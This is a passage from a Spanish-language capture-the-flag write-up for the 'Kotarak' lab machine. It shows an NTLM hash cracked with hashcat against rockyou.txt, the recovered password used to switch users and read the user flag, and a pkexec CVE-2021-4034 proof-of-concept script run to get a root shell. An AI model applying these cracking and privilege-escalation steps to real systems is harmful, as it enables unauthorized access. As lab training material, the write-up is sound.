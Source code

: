 Los crackeo con ```hashcat```

```null
hashcat hashes /usr/share/wordlists/rockyou.txt --show
Hash-mode was not specified with -m. Attempting to auto-detect hash mode.
The following mode was auto-detected as the only one matching your input hash:

1000 | NTLM | Operating System

NOTE: Auto-detect is best effort. The correct hash-mode is NOT guaranteed!
Do NOT report auto-detect issues unless you are certain of the hash type.

Failed to parse hashes using the 'pwdump' format.
e64fe0f24ba2489c05e64354d74ebd11:f16tomcat!
```

Es válida para ```atanas```

```null
tomcat@kotarak-dmz:/home$ su atanas
Password: 
atanas@kotarak-dmz:/home$ 
```

Puedo ver la primera flag

```null
atanas@kotarak-dmz:~$ cat user.txt 
93f844f50491ef797c9c1b601b4bece8
```

# Escalada (No intencionada)

Se puede abusar del ```pkexec```

```null
tomcat@kotarak-dmz:/tmp$ ./pwned.sh 
██████╗ ██╗  ██╗██╗    ██╗███╗   ██╗███████╗██████╗ 
██╔══██╗██║ ██╔╝██║    ██║████╗  ██║██╔════╝██╔══██╗
██████╔╝█████╔╝ ██║ █╗ ██║██╔██╗ ██║█████╗  ██████╔╝
██╔═══╝ ██╔═██╗ ██║███╗██║██║╚██╗██║██╔══╝  ██╔══██╗
██║     ██║  ██╗╚███╔███╔╝██║ ╚████║███████╗██║  ██║
╚═╝     ╚═╝  ╚═╝ ╚══╝╚══╝ ╚═╝  ╚═══╝╚══════╝╚═╝  ╚═╝
CVE-2021-4034 PoC by Kim Schulz
[+] Setting up environment...
[+] Build offensive gconv shared module...
[+] Build mini executor...
root@kotarak-dmz:/tmp#    
```

# Escalada

Todos tienen capacidad de lectura y escritura en el directorio ```/root```
